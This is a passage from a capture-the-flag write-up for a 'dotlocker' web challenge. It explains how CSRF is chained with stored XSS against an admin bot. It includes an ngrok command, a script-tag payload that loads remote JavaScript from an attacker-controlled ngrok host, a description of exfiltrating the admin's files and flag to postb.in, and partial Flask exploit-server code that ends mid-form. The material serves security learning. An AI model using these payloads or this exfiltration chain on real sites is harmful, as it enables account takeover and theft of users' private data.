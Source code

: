 At this point we know we're supposed to CSRF the admin user to do what exactly? Why to XSS themselves of course! We can use the XSS found earlier in our exploring to potentially execute arbitrary JS as the context of the admin user, assuming we can have them visit a link that drops our XSS payload onto their dotfile repo (then another one to trigger it). 

I needed to be able to have the admin thing reach directly to me, so I launched the ngrok docker image:
```
$ docker run --net=host -it --rm wernight/ngrok ngrok http host.docker.internal:3000
```

Which gives me an ability to serve requests to my special ngrok url

![image](https://user-images.githubusercontent.com/1072598/97646053-01213e00-1a25-11eb-9f03-bc39e6469c31.png)

So what to serve then? Well how about a webpage that, when visited, will force a POST request to the `/save` endpoint with our evil payload in it?

I put together a flask server to host the malicious CSRF form which forces the admin to submit a CSRF with my XSS payload in it (which just dynamically includes my flask app's `/script.js` route). 

Basically this exploit works in a few steps:
- First, have the admin hit the ngrok server directly, which submits the XSS payload into a file named `adsf`. The first admin you put into the SSRF-as-a-service is the ngrok server, so it hits the `/` handler and makes our CSRF POST request to land the XSS payload. Pointing the <script> tag at a postb.in can help confirm that the exploit is viable (note the referrer)
    ![image](https://user-images.githubusercontent.com/1072598/97646597-75a8ac80-1a26-11eb-9d91-4f6cb8544dce.png)

- Second, you request the admin visit `http://dotlocker.hackthe.vote/files/asdf`, which will execute our XSS payload, forcing the admin's browser to load https://some-ngrok-server/script.js. "Phase 1" noted in the JS is responsible for creating an iframe, enumerating all files in the admin's private space, and smuggling them out via postb.in. This ultimately gives us these files
    ![image](https://user-images.githubusercontent.com/1072598/97646643-97a22f00-1a26-11eb-9094-8aab279515bb.png)

- Third, do the same process with Iframes, but instead load up `flag.txt`, and smuggle that off to us, getting our flag as well as an overwhelming sense of accomplishment :D 
    ![image](https://user-images.githubusercontent.com/1072598/97646745-cfa97200-1a26-11eb-8db2-2063ed105a3a.png)

And finally, here's the exploit server I wrote to finally get me that sweet sweet flag!

```python
import os
from functools import wraps

from flask import Flask, request, abort, send_from_directory, render_template, session, redirect, url_for, Response

app = Flask(__name__)

# Text value below is literally just this, which bootstraps a new JS file every time as I want to edit things
# if [ </span><script src="http://3f5f510541c4.ngrok.io/script.js"></script> ]; then

HTML = """
<html>
    <h1>Hello, goodbye!</h1>

    <form name='x' action="http://dotlocker.hackthe.vote/save" method="POST">
        <div class="field">
          <div class="control">
            <input class="input" type="text" name="name" id="nameprompt" placeholder="Dotfile Name" value="asdf">
            <input type="hidden" name="text" id="textbody">
            <input type="hidden" name="_csrf_token" value="e991d39e30cee6c53494428e12e9632092aa735d2c19d5081595f7c57da3755e">
            <input type="hidden" name="_id" value="5f8f7cc164359d236ef1fc81">
```